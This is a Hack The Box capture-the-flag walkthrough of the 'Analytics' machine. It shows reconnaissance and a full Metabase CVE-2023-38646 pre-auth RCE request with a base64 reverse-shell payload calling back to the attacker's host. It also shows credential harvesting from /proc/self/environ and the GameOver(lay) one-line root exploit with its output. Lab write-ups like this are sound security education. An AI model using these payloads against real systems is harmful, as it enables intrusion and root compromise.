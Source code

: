 ```yaml
---
title: "Analytics [Easy]"
date: 2024-07-23 02:09:44 +0530
categories: [Hackthebox]
tags: [Metabase,CVE-2023-38646,RCE,kernel Privesc]
image: /assets/img/Analytics.png
---
```


# Analytics Walkthrough - Easy

## Reconnaissance

An initial Nmap scan revealed only 2 open ports:

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This revealed SSH running on port 22 and an nginx web server on port 80. Both telling us it's a server running Ubuntu.

The next step was to further enumerate the web application, but first, I added the IP address to /etc/hosts:

```bash
echo "10.10.14.233 analytical.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold

### Exploring the Web Application

Browsing to _http://analytical.htb_ brought up a simple login page. Intercepting requests with Burp revealed a redirect to _http://data.analytical.htb_, so I added that subdomain to /etc/hosts.

Visiting _http://data.analytical.htb_ displayed a login page for Metabase, an open source business intelligence tool. Default credentials did not work on the login. 

![img](/assets/img/login1.png)

After some research, I discovered Metabase has a recently disclosed pre-authentication RCE vulnerability [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). This bug in Metabase, involved a retained 'setup-token' post-installation, accessible to unauthenticated users. This flaw, resulting from a codebase refactoring oversight, allowed exploitation via SQL injection in the H2 database driver during the Metabase setup phase. The exploit enabled pre-authentication Remote Code Execution (RCE) by manipulating database connection validation steps.

The next step was finding a Proof of Concept exploit for this vulnerability to gain initial access. The search was not long, as there was a very nice writeup with PoC by AssetNote on their [blog page](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

The following payload can be used to obtain a reverse shell on the system:

```console
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=4f9146b3-7b53-471e-9f10-4232d6856b1d
If-Modified-Since: Fri, 13 Oct 2023 06:45:20 GMT
Connection: close
Content-Length: 822

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The value of YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjM2LzU1NTUgMD4mMSAg decoded is bash -i >&/dev/tcp/10.10.14.36/5555 0>&1. You must encode this with your own IP and port, and then modify the payload above before sending it. For some reason it won't work if there are any "=" signs in the base64 payload, so make sure you don't have them. You can add spaces in the end of the payload before base64 encoding it, to adjust the padding.

![img](/assets/img/burp1.png)

This exploit allowed me to gain a reverse shell from the underlying system, but there was no user flag in there, so I started exploring what's around...

### Finding Credentials

I checked /proc/self/environ for any environment variables:

> 76574c6ca049:~$ cat /proc/self/environ

```bash
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=
LANGUAGE=en_US:en  
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8  
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/cat
OLDPWD=/home/metabase/.ssh
```

This revealed credentials:

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

I tried to SSH into the server with those and:

```bash
ssh metalytics@analytical.htb
```

i was in and could read the flag:

```bash
Last login: Wed Nov 15 01:55:43 2023 from 10.10.14.36
metalytics@analytics:~$ cat user.txt
dc3b************************c327
```

## Privilege Escalation to Root

After gaining initial access to the Analytical server as the metalytics user, I began searching for ways to escalate privileges and obtain access to the root user account.

sudo -l didn't work

```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Tried uname -a command.

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

From top of my head I could remember that there was an Ubuntu kernel related privesc vulnerability discovered very recently, so I simply decided to try it out. [New Container Exploit: Rooting Non-Root Containers with CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

It is so simple, that fits in one line: 

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

So, let's try it:

```bash
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ ls -la /root
ls: cannot open directory '/root': Permission denied
metalytics@analytics:~$
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# ls -la /root
total 48
drwx------  6 root root 4096 Aug 25 15:14 .
drwxr-xr-x 18 root root 4096 Aug  8 11:37 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Aug 25 15:14 .scripts
-rw-r--r--  1 root root   66 Aug 25 15:14 .selected_editor
drwx------  2 root root 4096 Apr 27  2023 .ssh
-rw-r--r--  1 root root   39 Aug  8 11:30 .vimrc
-rw-r--r--  1 root root  165 Aug  8 11:53 .wget-hsts
-rw-r-----  1 root root   33 Nov 15 00:54 root.txt
root@analytics:~# cat /root/root.txt
fe46************************afd0
root@analytics:~#
```
## Conclusion

The key steps were thorough reconnaissance, pinpointing a logical exploit chain, adapting public PoCs, and continuous enumeration for additional attack surface. Combining patience, research, and technical skills allowed me to achieve the goal.
